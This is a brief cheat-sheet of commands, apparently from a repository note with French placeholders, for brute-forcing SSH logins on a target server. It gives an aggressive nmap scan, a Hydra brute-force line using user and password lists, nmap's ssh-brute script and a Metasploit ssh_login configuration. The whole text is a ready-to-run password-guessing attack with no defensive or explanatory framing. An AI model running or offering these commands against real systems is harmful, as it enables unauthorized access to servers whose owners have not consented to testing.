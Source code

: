 nmap -v -A *ip_serveur*

# Hydra :
hydra -L users.txt -P passwords.txt ssh://*ip_serveur_ssh* -t 4

# Nmap :
nmap *ip_serveur_ssh* -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt

# Metasploit :
msfconsole
use auxiliary/scanner/ssh/ssh_login
set rhosts *ip_serveur_ssh*
set stop_on_success true
set user_file users.txt
set pass_file passwords.txt
set verbose true
run
